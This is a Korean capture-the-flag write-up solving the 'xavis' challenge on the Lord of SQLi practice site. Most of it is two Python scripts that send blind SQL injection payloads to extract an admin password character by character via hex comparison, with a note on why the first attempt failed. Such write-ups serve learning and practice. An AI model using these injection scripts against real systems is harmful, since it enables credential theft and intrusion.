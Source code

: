 ```python
url = 'https://los.rubiya.kr/chall/xavis_04f071ecdadb4296361d2101e4a2c390.php?'
cookie = {"PHPSESSID" : 'cookie 값'}


for i in range(100):
    param = {'pw' : f"'||length((pw)={i}-- -"}
    res = requests.get(url, params=param, cookies=cookie)
    if 'Hello admin' in res.text:
        length = i
        print(i)
        break

length = 24
password = ''
for len in range(1,length+1):
    for pw in range(0, 16):
        query = {'pw' : f"' or substr(pw, {str(len)}, 1)='{chr(pw)}'-- -"}
        res = requests.get(url, params = query, cookies = cookie)
        if 'Hello admin' in res.text:
            password += format(pw,'x')
            print(f"{len} : {format(pw,'x')}")
            break
print(password)
```
하지만 이 코드를 그대로 사용하면 pw의 길이가 24인 것은 알 수 있지만 모든 값이 0으로 출력된다.<br>
이유가 찾을 수 없어 검색해봤더니 pw의 값이 한글로 저장되어있어서 라는것을 알 수 있었다.<br>
값을 정상적으로 출력할 수 있도록 코드를 수정했다.
```python
import requests

url = 'https://los.rubiya.kr/chall/xavis_04f071ecdadb4296361d2101e4a2c390.php?'
cookie = {"PHPSESSID" : 'cookie 값'}


for i in range(100):
    param = {'pw' : f"'||length(hex(pw))={i}-- -"}
    res = requests.get(url, params=param, cookies=cookie)
    if 'Hello admin' in res.text:
        length = i
        print(i)
        break

length = 24
password = ''
for len in range(1,length+1):
    for pw in range(0, 16):
        query = {'pw' : f"' or substr(hex(pw), {str(len)}, 1)='{format(pw, 'x')}'-- -"}
        res = requests.get(url, params = query, cookies = cookie)
        if 'Hello admin' in res.text:
            password += format(pw,'x')
            print(f"{len} : {format(pw,'x')}")
            break
print(password)
```
이렇게 코드를 수정하면 pw 값에 맞는 hex값을 얻을 수 있다.
출력된 값을 한글로 변환해보면 문제를 해결할 수 있우왕굳~~!
<br>
